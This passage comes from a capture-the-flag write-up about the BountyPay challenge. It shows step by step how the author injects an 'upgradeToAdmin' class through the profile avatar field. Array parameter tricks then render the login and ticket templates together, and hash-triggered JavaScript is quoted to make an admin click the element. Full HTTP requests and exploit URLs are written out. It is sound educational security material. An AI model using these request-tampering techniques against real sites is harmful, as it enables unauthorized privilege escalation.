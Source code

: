 So, at this point I had to find a way to create an element with *class="upgradeToAdmin"*.

Thus I found that I could edit the class attribute of the profile avatar through the following POST request in the *profile_avatar* body parameter:
```
POST /?template=home HTTP/1.1
Host: staff.bountypay.h1ctf.com
Connection: close
Content-Length: 42
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://staff.bountypay.h1ctf.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/82.0.4078.0 Safari/537.36 autochrome/blue
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://staff.bountypay.h1ctf.com/?template=home
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: token=c0lsdUVWbXlwYnp5L1VuMG5qcGdMZnlPTm9iQjhhbzhweEtKaFFCZGhSVHBnMVNDWHlsVkRKclJqcnIwSmVNbFRkbnIvU3MzMndYSW5XNmNFS1l5T1FDdTVNZFJPMS9TTWtDWEFkODBtRGRlbXpERlZ5WVlUdVZ6eDA0VnkxaWxRbU9CUVA2dFVoOTdwQVljb0NpbSt2d0RkYVF1N1BHUmFSbjZkNHpH

profile_name=sandra&profile_avatar=upgradeToAdmin
```

The new class could be retrieved when looking at Sandra avatar in the "Support Tickets" section at https://staff.bountypay.h1ctf.com/?template=ticket&ticket_id=3582:
{F856347}

Now I had to connect the dots and found a way to have both reachable at the same time the *login* template and the *ticket* one.

At first I tried something like this but nothing happened:
`https://staff.bountypay.h1ctf.com/?template=ticket&ticket_id=3582&template=login&username=sandra.allison`

Then, after countless attempts, I found that I could use **multi array** for having both two templates at the same time!
`https://staff.bountypay.h1ctf.com/?template[]=login&template[]=ticket&ticket_id=3582&username=sandra.allison`

{F856350}

So now I had to find a way to make sure that the admin will click on the correct element and trigger the request.
For doing this we can leverage this piece of code belonging to the same JavaScript seen before:
```
document.location.hash.length > 0 && ("#tab1" === document.location.hash && $(".tab1").trigger("click"), "#tab2" === document.location.hash && $(".tab2").trigger("click"), "#tab3" === document.location.hash && $(".tab3").trigger("click"), "#tab4" === document.location.hash && $(".tab4").trigger("click"));
```
